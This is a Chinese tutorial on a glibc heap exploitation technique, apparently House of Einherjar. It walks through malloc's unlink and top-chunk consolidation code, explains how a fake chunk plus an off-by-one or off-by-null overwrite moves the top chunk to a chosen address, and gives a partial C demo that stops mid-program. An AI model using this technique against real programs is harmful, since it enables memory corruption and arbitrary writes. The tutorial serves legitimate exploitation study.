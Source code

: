​ unlink 操作在这里没有具体的利用，我们只是最后需要绕过这样的一个检测。让它可以正常进行合并。这里第 9 行是针对 lagebin 的一个检测，而在我们这个利用手法中，基本都是 lagebin，所以我们需要对这个 fd_nextsize 和 bk_nextsize, 做一个绕过的检测。因为当 lagebin 中只有一个堆块时，fd_nextsize 和 bk_nextsize, 都指向 p 自己，所以我们把这两个设置为 p 的地址即可。

### consolidate into top

```
else {
      size += nextsize;
      set_head(p, size | PREV_INUSE);
      av->top = p;
      check_chunk(av, p);
    }
```

​ 这段就是就是把与 topchunk 相邻的空闲堆块与 top chunk 合并。并更新 top chunk 的大小和地址。

原理和条件
-----

### 原理

​ 这里是这样，利用某些手段伪造出一个 fakechunk，这个 chunk 位于我们想要分配的目的地址上 (记为 target)。 同时，我们利用可以正常分配到的一个 chunk (记为 p)。通过修改 p 的 prevsize 和 pre_inuse, 让 p 和 target 合并为一个堆块，当然 p 本身是与 topchunk 相邻的。此时，target 和 p 都被 topchunk 合并为新的 topchunk。此时 topchunk 的地址，就迁移到了 target 所在的地址。那么再次分配堆地址，就可以把这个空间分配到手。

### 条件

​ 1. 伪造 fakechunk ，需要泄露 栈地址和堆地址。总之要能泄露地址  
​ 2.off-by-one 或 off-by-null，要能修改 pre_inuse。

demo
----

```
#include #include #include #include #include int main()
{
    setbuf(stdin,NULL);
    setbuf(stdout,NULL);
 
    uint8_t* a;
    uint8_t* b;
    uint8_t* c;
 
    a=(uint8_t*)malloc(0x38);/*假设，我们要利用a去溢出到下一个堆块。*/
    size_t* a_addr=(size_t *)(a-sizeof(size_t)*2);
    size_t  a_size=malloc_usable_size(a);
    printf("\033[1;33m这里，我们申清一个堆块a,假设存在溢出漏洞。需要通过a去溢出：\033[0m\n");
    printf("a的地址(包含chunk头)：%p\n",a_addr);
    printf("a的大小(不含chunk头)：%lx\n\n",a_size);
         
    size_t fakechunk[6];/*这里，我们通过某种方法伪造了fakechunk。*/
    fakechunk[0]=0x100,fakechunk[1]=0x100;
    fakechunk[2]=(size_t)fakechunk;
    fakechunk[3]=(size_t)fakechunk;
    fakechunk[4]=(size_t)fakechunk;
    fakechunk[5]=(size_t)fakechunk;
    printf("\033[1;33m假设，我们通过某种方法，构造了如下的一个fakechunk：\033[0m\n");
    printf("fakechunk的地址(包含chunk头)：%p\n",fakechunk);
    printf("fd: %#lx\n",fakechunk[2]);
    printf("bk: %#lx\n",fakechunk[3]);
    printf("fd_nextsize: %#lx\n",fakechunk[4]);
    printf("bk_nextsize: %#lx\n\n",fakechunk[5]);
     
    b=(uint8_t*)malloc(0xf8);/*这就是要触发，向后合并和topchunk合并的堆块.*/
    size_t* b_size_ptr=(size_t*)(b-sizeof(size_t));/*指向 chunk b 的size位.*/
```